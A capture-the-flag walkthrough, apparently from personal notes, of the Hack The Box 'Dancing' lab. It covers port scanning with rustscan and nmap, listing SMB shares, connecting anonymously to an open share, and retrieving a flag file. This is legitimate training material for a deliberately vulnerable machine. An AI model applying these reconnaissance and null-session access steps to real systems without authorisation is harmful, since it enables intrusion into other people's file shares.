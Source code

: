 - - - 
created : 30-07-2025 

Tags : #veryeasy
- - - 
# Objective

Learn how to start.
# CONNECT

To attack the target machine, you must be on the same network.  
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.  
If you don't see an update after 2-3 minutes, refresh the page.

I will use OpenVPN, so i download the config file on HTB, go in the same directory on my PC and execute the following command :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB]
└─$ sudo openvpn starting_point_mdn0x.ovpn 
[sudo] password di mdn0x: 
```

We can start our [Vulnerable Machine](../../../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md).

Now we add the target IP to our /etc/hosts file, so we don't have to remember the [IP address](../../../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) every time :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Meow]
└─$ sudo nano /etc/hosts
```

We add a line with the given IP and a name .
# Task 1

What does the 3-letter acronym SMB stand for?

```bash
 Server Message Block
```
# Task 2

What port does SMB use to operate at?

```bash
 445
```
# Task 3

What is the service name for port 445 that came up in our Nmap scan?
## Rustscan/Nmap

We can use [Rustscan](../../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ rustscan -a dancing.htb -- -A  

Open 10.129.69.166:135
Open 10.129.69.166:139
Open 10.129.69.166:445
Open 10.129.69.166:5985
Open 10.129.69.166:47001
Open 10.129.69.166:49664
Open 10.129.69.166:49665
Open 10.129.69.166:49666
Open 10.129.69.166:49668
Open 10.129.69.166:49667
Open 10.129.69.166:49669

PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

The answer is **microsoft-ds**.
# Task 4

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

```bash
 -L
```
# Task 5

How many shares are there on Dancing?
## SMBclient

Let's check, we can use [SMBclient](../../../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) to connect :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient -L 10.129.69.166
Password for [WORKGROUP\mdn0x]: (no passwd/enter)

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.69.166 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
# Task 6

What is the name of the share we are able to access in the end with a blank password?

```bash
 WorkShares
```
# Task 7

What is the command we can use within the SMB shell to download the files we find? `get`

Let's use the `-N` flag to access the directory like this :

```
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient  //10.129.69.166/WorkShares -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1753002 blocks available
```

Now we can download the files with **get** :

```bash
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1752981 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,0 KiloBytes/sec) (average 0,0 KiloBytes/sec)
```
# Task 8

Submit root flag

Now we exit with `quit` or `ctrl + C` and `cat` the flag :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ ls
flag.txt  worknotes.txt
                                      
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ cat flag.txt
[[redacted_flag]] 
```

